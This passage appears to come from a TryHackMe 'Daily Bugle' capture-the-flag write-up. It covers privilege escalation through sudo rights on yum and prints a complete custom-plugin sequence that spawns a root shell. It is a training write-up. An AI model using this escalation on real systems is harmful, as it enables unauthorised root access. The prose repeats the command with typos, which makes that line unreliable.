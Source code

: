 Our first flag is located in `jjameson`'s home directory `/home/jjameson/user.txt`

##### Answer: <details><summary>Show Answer</summary></details>

## Privilege Escalation

Now that we've got access to a normal user rather than the previous apache login, we can check to see which sudo privileges `jjameson` has using `sudo -l`

![](Assets/Images/Pasted%20image%2020221206164122.png)

Looks like we've got sudp privileges for `yum`.
According to gtfobins, if the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

We can spawn an interactive root shell by loading a custom plugin using the below commands:

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Once you've created the above custom plugin and run `sudo tum-c $TF/x --enebleplugin=y` we now have our root shell and can capture our final flag!

##### Answer: <details><summary>Show Answer</summary></details>

Big thank you for reading through my writeup of the Daily Bugle room on TryHackMe.com. I really hope you've found the information here useful!
